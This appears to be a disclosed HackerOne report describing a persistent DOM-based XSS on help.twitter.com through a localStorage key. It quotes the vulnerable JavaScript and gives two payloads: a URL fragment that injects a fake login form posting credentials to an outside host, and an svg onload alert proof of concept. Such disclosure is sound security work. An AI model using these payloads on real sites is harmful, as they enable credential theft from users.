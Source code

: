 # Persistent DOM-based XSS in https://help.twitter.com via localStorage

## Report Details
- **Report ID**: 297968
- **URL**: https://hackerone.com/reports/297968
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-12-14T18:47:34.673Z
- **Disclosed**: 2018-02-24T00:03:54.935Z

## Reporter
- **Username**: harisec
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: x

## Vulnerability Information
**Summary:** 

I've found a DOM-based XSS vulnerability in the website **help.twitter.com** that persists via a localStorage key **lastArticleHref**. The value of this localStorage key is used to dynamically generate a piece of HTML code without proper encoding or filtering allowing an attacker to inject additional HTML code into the response.

**Description:** 

The website **help.twitter.com** contains JavaScript code that will save the value of the current page (the value of the browser property **location.href**) into a localStorage key named **lastArticleBreadcrumbs**.

The JavaScript code is loaded from this URL:
https://help.twitter.com/etc/designs/help-twitter/public/js/homepage.js

There are two relevant localStorage keys:
*  **lastArticleBreadcrumbs** - that contains an array of breadcrumbs such as `["Help Center"," Following and unfollowing"," How to approve or deny follower requests"]`
*  **lastArticleHref** -  that contains the URL of the last visited article

When these two localStorage keys are present, the following code is executed:

```
this.lastArticleBreadcrumbs.shift();
                    var t = this.lastArticleBreadcrumbs.map(function(t, r) {
                        return r === e.lastArticleBreadcrumbs.length - 1 ? '<a class="hp03__link  twtr-type--roman-16" href="' + e.lastArticleHref + '">' + t + "</a>" : '<span class="hp03__breadcrumb  twtr-color--light-gray-neutral">' + t + "</span>"
                    });
                    this.breadcrumbElement.innerHTML = t.join('<span class="hp03__seperator    twtr-color--light-gray-neutral">/</span>')
```

As you can see above a piece of HTML code is dynamically generated using the value of the JavaScript variable **e.lastArticleHref**. This variable is loaded from the localStorage key **lastArticleHref**.

The value of **e.lastArticleHref** is not properly HTML encoded when used to dynamically generate the HTML code. This code is written to the browser DOM via `this.breadcrumbElement.innerHTML`.

This allows an attacker to inject additional HTML code into the browser DOM by manipulating the value of the localStorage key **lastArticleHref**.

The exploit scenario is as follows:

1. The victim visits an URL like `https://help.twitter.com/en/using-twitter/follow-requests#"><zzzz>`
2. The JavaScript code from the page will set the value of localStorage key **lastArticleHref** to `https://help.twitter.com/en/using-twitter/follow-requests#\"><zzzz>`.
3. The user visits the homepage `https://help.twitter.com/`.
4. At this point the value of the localStorage key **lastArticleHref** is loaded and used to dynamically generate some HTML code that is written into the DOM.
5. The victim can now open a new window/tab and visit `https://help.twitter.com/`. The HTML code set by attacker will appear in the page as the value of the localStorage key **lastArticleHref** will remain set to an XSS payload.

I was not able to bypass CSP and I've prepared some HTML code that is inserting a fake login form into the page that sends the credentials to a domain controlled by me.

## Steps To Reproduce:

I've attached two movies where I demonstrate how to reproduce this issue using Google Chrome and Internet Explorer.

### Chrome
To reproduce, using Google Chrome follow the next steps:

* Visit the following URL using Google Chrome:

```
https://help.twitter.com/en/using-twitter/follow-requests#"></a></div></div></div></div></div></div></div></div></div></div></div></div><br><br><br><br><br><br><br><br><br><br><br><br><div style='background: #97e3ff; position: fixed; top: 80%; left: 50%; margin-top: -50px;  margin-left: -150px; border-style: double;'>Please sign in below:<br><form action=https://bugs.thx.bz/just>username:<input type=text name=u><br>password:<input type=password name=p><br><input type=submit value='Sign in'></form><br></div>
```

* At this point, the value of the localStorage key was set to an HTML payload that is written to the DOM.
* Visit the homepage https://help.twitter.com/
* A fake login form will appear in the center of the page. Any credentials entered on this login form will be sent to the domain **bugs.thx.bz**.

### Internet Explorer 11

To reproduce, using Internet Explorer follow the next steps:

* Visit the following URL using Internet Explorer 11:

```
https://help.twitter.com/en/using-twitter/follow-requests#"><svg/onload=alert(1)>
```

* At this point, the value of the localStorage key was set to an XSS payload that is written to the DOM.
* Visit the homepage https://help.twitter.com/
* A popup should appear as proof that JavaScript execution is possible.

## Supporting Material/References:

I've attached two movies to this report.
*  One demonstrating the issue using Google Chrome and the login form.
*  Another one using IE11 to execute JavaScript code in the context of the domain **help.twitter.com**.

## Impact

An attacker could exploit this issue by sending a crafted link to the victim via an email message or via chat. When the victim visits the link provided, the attacker can steal victim's credentials.

## Attachments
- chrome-screenshot.png
- chrome-login-page.mp4
- ie-xss.mp4
